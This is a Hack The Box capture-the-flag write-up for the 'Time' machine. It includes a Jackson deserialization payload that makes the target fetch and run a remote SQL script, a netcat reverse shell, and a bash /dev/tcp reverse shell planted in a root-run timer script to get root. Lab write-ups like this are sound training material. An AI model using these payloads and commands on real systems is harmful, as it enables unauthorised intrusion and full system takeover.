 ```yaml
---
title : Time - Writeup
---
```


_**Jan 06, 2021**_

[Time](https://www.hackthebox.eu/home/machines/profile/286) Writeup

## Recon : 

First i scanned for open ports using my [Tool](https://github.com/bvr0n/PortScanner/), Then i scanned those ports with `nmap`.

```sh
bvr0n@kali:~/ctf/htb/Time$ portscanner -u 10.10.10.214
 ____            _     ____                                  
|  _ \ ___  _ __| |_  / ___|  ___ __ _ _ __  _ __   ___ _ __ 
| |_) / _ \| '__| __| \___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
|  __/ (_) | |  | |_   ___) | (_| (_| | | | | | | |  __/ |   
|_|   \___/|_|   \__| |____/ \___\__,_|_| |_|_| |_|\___|_|   
                                                             

                   by @Taha El Ghadraoui
                      @bvr0n 

--------------------------------------------------
Scanning Target: 10.10.10.214
Scanning started at:2021-01-05 04:01:16.318087
--------------------------------------------------


[+] Scanning All 65 535 TCP Ports.. 

[+] Port : 22 is open
[+] Port : 80 is open
```

```sh
bvr0n@kali:~/ctf/htb/Time$ nmap -sC -sV 10.10.10.214 -p 22,80
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-05 04:02 EST
Nmap scan report for 10.10.10.214
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So we have `ssh` & `http` running, `ssh` won't get you anywhere so let's see the web page.
After looking inside, it's running a `JSON Parser`, i tried some basic stuff in that form but nothing really came up, except this weird `ERROR` :

```java
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'a': was expecting ('true', 'false' or 'null')
```

So i looked for it in google and i stubmled acorss this [Article](https://github.com/jas502n/CVE-2019-12384) explaining it very precisely.

I used this payload from that article :

#### Steps :

1) add a reverse shell inside `inject.sql` 
2) Run a python http server inside the repo where `inject.sql` is located.
3) start a netcat listner.
4) run the payload inside the `Json Parser`.

##### Payload :

```java
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://[MYIP]:8000/inject.sql'"}]
```

```sh
bvr0n@kali:~/ctf/htb/Time$ python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.214 - - [05/Jan/2021 15:36:39] "GET /inject.sql HTTP/1.1" 200 -
```

```sh
bvr0n@kali:~$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [#######] from (UNKNOWN) [10.10.10.214] 52132
bash: cannot set terminal process group (844): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
pericles@time:/var/www/html$
```

## Privilege Escalation :

After running `linpeas.sh` i saw something weird, a file named `timer_backup.sh` :

```sh
[+] Analyzing .timer files
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers
/usr/bin/timer_backup.sh
```
Don't bother understanding what's inside, it ziped `/var/www/html` into `website.bak.zip` & move it to `/root/backup.zip`, This looks like a cron.

```sh
pericles@time:/var/www/html$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
I tried testing if this would execute something in my side, and it did, but this methode gave me an empty `root.txt` -_- :

```sh
pericles@time:/home/pericles$ echo "mv /root/root.txt > /home/pericles/root.txt" > /usr/bin/timer_backup.sh
pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh 
mv /root/root.txt > /home/pericles/root.txt
pericles@time:/home/pericles$
```

```sh
pericles@time:/home/pericles$ ls -l
total 8
-rw-r--r-- 1 root     root        0 Jan  6 19:31 root.txt
drwxr-xr-x 3 pericles pericles 4096 Oct  2 13:20 snap
-r-------- 1 pericles pericles   33 Jan  6 05:45 user.txt
```
So i tried a reverse shell inside and it worked, the shell die in few seconds but enough to grabbe the flag :

```sh
pericles@time:/home/pericles$ echo "bash -i >& /dev/tcp/[IP]/8080 0>&1" > /usr/bin/timer_backup.sh 
```

```sh
bvr0n@kali:~$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [######] from (UNKNOWN) [10.10.10.214] 41774
bash: cannot set terminal process group (262995): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# id && hostname
id && hostname
uid=0(root) gid=0(root) groups=0(root)
time
```

And we are `root`, hope you enjoy this writeups.
